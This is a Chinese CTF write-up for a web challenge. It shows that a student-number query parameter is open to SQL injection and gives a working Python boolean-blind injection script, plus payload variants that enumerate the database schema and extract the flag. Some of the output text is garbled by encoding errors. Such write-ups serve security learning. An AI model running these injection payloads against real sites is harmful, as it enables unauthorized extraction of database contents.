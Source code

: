 ![[Pasted image 20221223122239.png|500]]

---
首页长这样
![[Pasted image 20221223122304.png|700]]

通过`stunum`传递查询
```php
/?stunum=<num>
```

---
```php
/?stunum=1
```

> Hi admin, your score is: 100

```php
/?stunum=2
```

> Hi åŒå‡»è€é, your score is: 666

```php
/?stunum=3
```

> Hi åˆ«fuzzäº†, your score is: ä½ å°±ä¸ä¼šè¾“ä¸ªå­¦å·?

```php
/?stunum=4
```

> Hi å“¦æ•°æ®å, your score is: AISæˆå‘˜çš„æ•°æ®

逐渐魔法起来力
猜测是不是存在`sql`注入
```php
/?stunum=0^1
```

> Hi admin, your score is: 100

```php
/?stunum=0^0
```

> student number not exists.

尝试直接布尔盲注
```python
import requests
import time
import sys

url = "http://xxx.node4.buuoj.cn:81"

fmt = '0^(ord(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))>%d)'
false_re = 'exists'

for i in range(0, 100):
    l = 0
    r = 127
    while l < r:
        mid = (l + r) // 2
        payload = fmt % (i, mid)
        params = {'stunum': payload}
        response = requests.get(url, params)
        time.sleep(0.1)
        if response.text.find(false_re) >= 0: # mid >= ans
            r = mid
        else: # mid < ans
            l = mid + 1
    print(chr(l), end='')
    sys.stdout.flush()
```

> information_schema,ctf

```python
fmt = '0^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=\'ctf\')),%d,1))>%d)'
```

> flag,score

```python
fmt = '0^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name=\'flag\')),%d,1))>%d)'
```

> flag,value

```python
fmt = '0^(ord(substr((select(group_concat(flag))from(ctf.flag)),%d,1))>%d)'
```

> flag

```python
fmt = '0^(ord(substr((select(group_concat(value))from(ctf.flag)),%d,1))>%d)'
```

> flag{808357e6-c9d9-48c6-84f8-23e18ec19981}

#Web #SQL注入 #布尔盲注 